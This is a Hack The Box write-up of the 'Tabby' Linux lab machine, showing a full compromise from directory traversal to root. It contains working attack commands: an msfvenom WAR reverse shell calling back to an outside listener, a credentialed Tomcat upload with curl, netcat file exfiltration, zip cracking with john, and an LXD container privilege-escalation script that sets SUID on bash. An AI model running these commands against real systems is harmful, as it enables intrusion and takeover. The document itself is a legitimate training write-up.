 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: true
---
```


![](/assets/Tabby/Tabby.png)

## Summary
- **Tabby** is a **linux** machine hosting both **Apache web server** and **Tomcat**.
- The website on port 80 had a **Directory Traversal vulnerability** which enabled us to **read a Tomcat configuration file** which **contained valid credentials.**
- *Using those,* we **get a user with enough privileges to upload a WAR file containing a reverse shell**. *And, with that*, we **access the box** as the `tomcat` user.
- We find an **encrypted backup archive in the webroot**. We **crack it** with `john` to **get a password.**
- The password was *being reused* by another user on the box (`ash`). And, he happened to be **a member of the `lxd` group.**
- We **escalate our privileges** to `root` by **creating a specially-configured container**.

---

## NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`nmap` gives us areas to check: the **website on port 80** and the **Tomcat instance on port 8080**

## Port 80
The home page here was mostly **static content**.

![](/assets/Tabby/homepage-port-80.jpg)

*except for* the **link for the "News" page.**

note: *on the link below*, notice *how the host name changed* to **"megahosting.htb"**

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` should take care of this **Virtual Host Routing**

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles **a parameter** called `file`. this looks like a **file inclusion vulnerability.**

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going **4 directories back** with `../../../../` gets us the **confirmation** we need.

![](/assets/Tabby/lfi-confirmed.jpg)

*after a couple of tries to get the path right,* we are able to **retrieve the source code** of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a **Directory/Path Traversal vulnerability** and **not a Local File Inclusion.**

that's because `fopen` just **reads a file's contents**. it **doesn't evaluate PHP code** like `include` or `require`

***Knowing this bit spares us the effort of trying to get code execution by including PHP.***

## Reading Sensitive Files
*As a quick check,* I try to read the `ash` user's **private SSH key** (`/home/ash/.ssh/id_rsa`). But it's *not that easy* :)

I then think "maybe I should check out the tomcat to avoid any rabbit holes". In case there's something to be found there.

![](/assets/Tabby/tomcat-homepage.jpg)

We get some **decent information** from this page. the **webroot** and **where Tomcat is installed.**

*But, when it comes to sensitive files,* there's **a very important one** called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

We found it there and got **creds for a user** with **very nice privileges** :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

## Exploiting our Tomcat Privileges for RCE
The `manager-script` role has access to **upload WAR files.**

to abuse this, we will generate a **WAR reverse shell** with `msfvenom`

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

then **upload the WAR file** using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

and `curl` the endpoint to hit and trigger our reverse shell

```bash
curl http://tabby:8080/shell
```

![](/assets/Tabby/shell-as-tomcat.jpg)

we're in as `tomcat` :)

## Pivoting with Password Reuse

*Right after improving our shell,* we start with **checking the files** in `/var/www/html`

there was a folder called `files`. It contained a **password-protected zip archive** that was **owned by** the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we **transfer it over** to our kali using `netcat` so we can **crack** it

```bash
# on tabby
nc -lvnp 5000 < 16162020_backup.zip
# on our kali
nc tabby 5000 > ash_backup.zip
```

*and, to verify that the file wasn't corrupted in-transit,* we do a quick **integrity check** using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to **get a hash** for `john` to crack.

![](/assets/Tabby/zip-password.jpg)

it successfully cracked. but we *didn't find anything important* within the archive itself.

![](/assets/Tabby/zip-files.jpg)

the files were practically ***the same as the original ones.***

*But, since we now had a password,* we tried it against `ash` and `root`

didn't work with `root`, but **did** with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

## LXD Privilege Escalation
*As you may have noticed from the previous image,* `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

this is *almost exactly the same situation* as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one *minor difference* is that **we have to initialize the LX daemon** with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as *it's not there by default.*

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

*for a bit of automation,* we're going to throw the commands into a **bash script**. here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

*after getting the container root shell,* we add an **SUID bit** to the host's **bash shell** so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

## Cleaning Up

*To clear away remnants,* we have to **stop the container**, **delete it** along with **the image we imported.**

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)